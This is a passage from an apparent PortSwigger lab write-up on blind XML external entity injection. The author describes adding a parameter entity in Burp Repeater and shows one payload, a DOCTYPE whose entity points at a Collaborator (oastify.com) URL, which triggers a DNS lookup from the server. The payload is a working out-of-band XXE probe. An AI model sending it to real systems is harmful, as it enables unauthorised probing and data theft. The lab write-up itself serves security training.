 ![lab2 workflow](/docs/assets/images/portswigger/blindxxe/bxxe08.png)

Within the repeater I'm going to add an external entity definition just after the xml declaration within the request. This entity will define a parameter entity named `%xxe` with a SYSTEM identifier pointing to the url associated with my collaborator. I'm also going to reference the parameter entity within the DTD which will effectively substitute `xxe;` with the content retrieved from the specified URL when the XML parser processes the DTD, `<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://fraq4az00z27qnf7fw0fu2omddj47wvl.oastify.com"> %xxe; ]>`. 

When I forward the request in the repeater I can see that the server responds with a `400 Bad Request` with an `"XML parsing error"` message. However within the collaborators log I can see that a DNS query was received from the server. 
